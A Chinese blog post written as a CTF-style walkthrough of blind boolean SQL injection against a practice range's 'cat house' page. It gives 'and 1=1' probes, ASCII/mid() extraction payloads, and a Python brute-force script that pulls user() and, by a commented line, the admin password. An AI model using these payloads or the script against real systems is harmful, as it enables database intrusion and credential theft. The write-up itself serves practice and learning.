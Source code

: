 ```yaml
---
title: 记一次用Python挑战SQL注入
createTime: 2020/04/13
tags:
  - Python
  - 渗透测试
permalink: /studyNotes/uus01k13/
---
```

## 前言
- 最近哥们给我分享了一个靶场地址，疫情在家闲着无聊便拿来挑战一下。
- [靶场地址](https://hack.zkaq.cn/)
## 分析
- 可以看到，题目要求是拿到管理员密码即可。
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200413171506664.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80NDM3MTg0Mg==,size_16,color_FFFFFF,t_70)

- 再进入靶机页面瞅瞅，看来就是要在url上操作了
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200413171823314.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80NDM3MTg0Mg==,size_16,color_FFFFFF,t_70)
- 简单加一个and 1=1和and 1=2，发现1=1时，显示下面的猫舍介绍，1=2时，不显示猫舍介绍。这个变化就作为分辨依据。
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200413174244815.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80NDM3MTg0Mg==,size_16,color_FFFFFF,t_70)

## 开始挑战
### 先拿一手user()（此时我已经忘记题目要求要拿管理员密码。。。。。）
##### 先拿user()长度
- 先and char_length(user())>0，OK
- 再and char_length(user()>100),ERROR
- 。。。。。。（中间省略，自己慢慢试）
- 就这样把user()的长度试了出来，16。
##### 长度出来，试字段
- 用and ASCII(mid(user(),1,1))>0，试出来后查表转换为字符
- 然后我们用python（不要问我为啥突然用python，试了8个字符后，手都试酸了。。。T0T）
- 上代码（代码不能直接用啊，自己简单分析一下，根据自己要获取的内容改一下，再补全IP就能用了）

```python
import re,requests

result = []
string = []
for j in range(1,17):	#循环第几个字符
    for i in range(97,123):	#从ASCII码表的第几到几开始试，试全部可能会慢很多
        #url = 'http://117.167.*.*:10180/index.php?id=1%20and%20(select%20ascii(mid(password,'+str(j)+',1))%20from%20admin)='+str(i) #找password时候用的
        #url = 'http://117.167.*.*:10180/index.php?id=1'+'and ASCII(mid(1,1))='+str(i)
        url = 'http://117.167.*.*:10180/index.php?id=1%20and%20ASCII(mid(user(),'+str(j)+',1))='+str(i)
        res = requests.get(url)
        res.encoding = 'utf8'
        if("猫舍介绍" in res.text):#判断返回的是OK还是ERROR
            print(str(j)+'是'+str(i))
            result.append(str(j)+':'+str(i))
            string.append(str(j)+':'+chr(i)) #将得到的编码自动转换成字符
            break
        else:
            print('不是'+str(i))

print(result)
print(string)
```
- 程序运行完之后记得查看输出结果是否有没试出来的字符，可以换个区间重新试一下或者自己手动试。

### 同理再拿一手database()
- maoshe
### 再拿一手version()
- 5.5.53
### 再拿一手hostname
- gongksik_d45fb6
### 再拿一手。。。。。。
### 哎，我到底要拿啥来着，哦对，管理员密码
#### 先找表
- 先随便试一下有没有admin表，and (select count(*) from admin)>0，Woc！！！还真有！
- 再随便试一下有没有password字段，and(select count(password) from admin)>0，Woc！！！又有！
- 这里博主走了点狗屎运，读者请勿模仿，自行一个个猜哈~
- 接下来就简单了，用上上面的python代码
- 注入标记改为(select ASSII(mid(password,1,1)))>0
- 然后就得到了管理员密码——（自己试去，┑(￣▽ ￣)┍）
### 接下来最重要的步骤——登录MySQL系统
- 等好久都不成功，才想起我们的目标只是拿到管理员密码。。。。。
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200413180149362.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80NDM3MTg0Mg==,size_16,color_FFFFFF,t_70)
## 后记
- 本次SQL注入到此结束，还愣着干啥，点赞关注走一走啊。。。。（￣︶￣）↗
